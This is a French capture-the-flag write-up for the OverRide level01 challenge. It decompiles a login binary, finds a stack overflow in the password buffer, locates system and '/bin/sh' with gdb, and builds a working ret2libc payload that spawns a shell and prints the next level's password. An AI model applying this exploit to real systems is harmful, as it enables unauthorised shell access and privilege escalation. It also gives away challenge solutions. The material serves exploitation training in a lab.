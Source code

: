 # **Level 01**

Premiere etape, comprendre le programme, on va donc decompiler l'executable dans un premier temps.

```
int verify_user_name(void)

{
  int iVar1;
  byte *pbVar2;
  byte *pbVar3;
  undefined uVar4;
  undefined uVar5;
  byte bVar6;
  
  bVar6 = 0;
  uVar4 = &stack0xfffffff4 < (undefined *)0x10;
  uVar5 = &stack0x00000000 == (undefined *)0x1c;
  puts("verifying username....\n");
  iVar1 = 7;
  pbVar2 = &a_user_name;
  pbVar3 = (byte *)"dat_wil";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    uVar4 = *pbVar2 < *pbVar3;
    uVar5 = *pbVar2 == *pbVar3;
    pbVar2 = pbVar2 + (uint)bVar6 * -2 + 1;
    pbVar3 = pbVar3 + (uint)bVar6 * -2 + 1;
  } while ((bool)uVar5);
  return (int)(char)((!(bool)uVar4 && !(bool)uVar5) - uVar4);
}



int verify_user_pass(byte *param_1)

{
  int iVar1;
  byte *pbVar2;
  undefined in_CF;
  undefined in_ZF;
  
  iVar1 = 5;
  pbVar2 = (byte *)"admin";
  do {
    if (iVar1 == 0) break;
    iVar1 = iVar1 + -1;
    in_CF = *param_1 < *pbVar2;
    in_ZF = *param_1 == *pbVar2;
    param_1 = param_1 + 1;
    pbVar2 = pbVar2 + 1;
  } while ((bool)in_ZF);
  return (int)(char)((!(bool)in_CF && !(bool)in_ZF) - in_CF);
}



undefined4 main(void)

{
  undefined4 uVar1;
  int iVar2;
  undefined4 *puVar3;
  undefined4 local_54 [16];
  int local_14;
  
  puVar3 = local_54;
  for (iVar2 = 0x10; iVar2 != 0; iVar2 = iVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + 1;
  }
  local_14 = 0;
  puts("********* ADMIN LOGIN PROMPT *********");
  printf("Enter Username: ");
  fgets(&a_user_name,0x100,stdin);
  local_14 = verify_user_name();
  if (local_14 == 0) {
    puts("Enter Password: ");
    fgets((char *)local_54,100,stdin);
    local_14 = verify_user_pass(local_54);
    if ((local_14 == 0) || (local_14 != 0)) {
      puts("nope, incorrect password...\n");
      uVar1 = 1;
    }
    else {
      uVar1 = 0;
    }
  }
  else {
    puts("nope, incorrect username...\n");
    uVar1 = 1;
  }
  return uVar1;
}
```
On peut donc voir que le programme nous demande un `prompt` d'un `username` puis un prompt pour un `password`;
Testons donc le programme,
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: test
verifying username....

nope, incorrect username...

```
En examinant un peu mieux le code, on peut voir que le `username` attendu est `dat_wil`
```
level01@OverRide:~$ ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
test
nope, incorrect password...
```

De plus, on constate que le `buffer` de la variable contenant le `password` est de `16` et que,
si l'on remplie le buffer de `80 characteres`, on `sigsegv`
```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password: 
01234567890123456789012345678901234567890123456789012345678901234567890123456789
nope, incorrect password...

Segmentation fault (core dumped)
```
Notre objectif va donc d'utiliser la place disponible dans le buffer de password pour reecrire le return du main
Exploit -> `Ret2libc`

> Pour une rapide explication ce au'on appelle `ret2libc` est un exploit utilisant `eip` pour jump dans la fonction `system` avec pour argument la commande voulu, ici `/bin/sh`
> Pour plus d'info [How to perform a ret2libc attack](https://shellblade.net/files/docs/ret2libc.pdf)

Pour ce faire nous allons devoir trouver l'`adresse` de la `fonction system` et une adresse d'une `string` contenant `/bin/sh`
```
level01@OverRide:~$ gdb ./level01 
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x80484d5
(gdb) run
Starting program: /home/users/level01/level01 

Breakpoint 1, 0x080484d5 in main ()
(gdb) info func system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
```
Adresse de system -> `0xf7e6aed0`

```
(gdb) find __libc_start_main, +9999999, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```
Adresse de "bin/sh" -> `0xf7f897ec`

Nous pouvons donc maintenant creer notre payload:

premier prompt -> [dat_wil]

second prompt -> [80 characteres] [addr system] [4 characteres] [addr "/bin/sh"]

`(python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file`

```
level01@OverRide:~$ (python -c "print 'dat_wil'"; python -c "print '\x90'*80 + '\xd0\xae\xe6\xf7' + 'AAAA'+ '\xec\x97\xf8\xf7'") > /var/crash/file
level01@OverRide:~$ cat /var/crash/file - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

id
uid=1001(level01) gid=1001(level01) euid=1002(level02) egid=100(users) groups=1002(level02),100(users),1001(level01)
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
> ### NEXT : [Level 02](/level02/resources/README.md)
